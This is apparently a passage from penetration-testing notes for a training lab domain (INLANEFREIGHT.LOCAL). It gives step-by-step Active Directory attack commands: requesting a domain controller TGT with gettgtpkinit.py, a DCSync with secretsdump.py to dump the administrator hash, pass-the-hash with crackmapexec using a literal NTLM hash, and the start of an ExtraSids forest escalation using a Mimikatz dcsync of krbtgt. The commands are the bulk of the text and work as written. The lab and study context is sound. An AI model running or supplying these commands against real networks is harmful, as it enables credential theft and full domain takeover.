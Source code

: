 Next, we can take this base64 certificate and use **gettgtpkinit.py **to request a **Ticket-Granting-Ticket** (TGT) for the domain controller.

```bash
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 "$(cat certificate_base64)" dc01.ccache

```

Save the TGT in the **KRB5CCNAME** variable

```bash
export KRB5CCNAME=dc01.ccache
```

Now we can perform a DCSync Attack with the TGT and retrieve the NTL hash. In this case i have used **secretsdump.py**

```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

Confirming Admin Access to the Domain Controller

```bash
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

# ExtraSids Attack - Windows

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected due to a lack of [SID Filtering](https://web.archive.org/web/20220812183844/https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection  

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain

- The SID for the child domain

- The name of a target user in the child domain (does not need to exist!)

- The FQDN of the child domain.

- The SID of the Enterprise Admins group of the root domain.

- With this data collected, the attack can be performed with Mimikatz.

## Get hash for KRBTGT user - Mimikatz

We can achive this perfominga dcsync attack for the user krbtgt (who as responsable for signig TGT ticket on DC)

```bash
lsadump::dcsync /user:LOGISTICS\krbtgt
```

